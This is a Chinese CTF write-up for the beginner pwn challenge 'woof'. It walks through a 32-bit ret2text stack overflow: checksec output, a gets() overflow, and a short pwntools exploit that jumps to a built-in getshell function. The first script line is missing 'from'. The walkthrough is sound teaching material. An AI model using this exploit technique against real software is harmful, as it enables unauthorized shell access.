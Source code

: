 ```yaml
---
title: 基础栈溢出ret2text 已有提权函数
layout: doc
---
```

[[toc]]

> 32位寄存器4个字节，函数传参只使用栈

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 小狗汪汪汪

使用file和checksec 查看elf的位数和安全保护
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file woof
woof: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b3b9279f6e821fe77197c0b174bfee82dd39de52, not stripped
                                                                       
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=woof
[*] '/home/kali/win/Downloads/woof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
> 可以看到是32为小段序程序，且没有开启栈保护


## IDA反编译源码
![alt text](image.png)

可以看到main函数的流程，值得注意的是 dog函数


![alt text](image-1.png)
很明显可以看到gets这里存在栈溢出，s是一个长度为9的字符数组

![alt text](image-2.png)

要覆盖的地址在 栈上的 s + ebp 的位置 也就是 9 + 4

然后找一下有没有可以执行系统命令的函数
![alt text](image-3.png)
![alt text](image-4.png)

存在getshell函数

我们获取它的地址是 0x0804859B

## 编写exp脚本
> 使用pwntools库 可以方便的编写exp
```py
pwn import *
context(os="linux", arch='i386')
io = process("./woof")
# io = remote("120.46.59.242", 2111)

getshell_addr = 0x0804859B

padding = 9 + 4

payload = b'A' * padding + p32(getshell_addr)

io.send(payload)
io.interactive()

```

执行脚本后可获得交互shell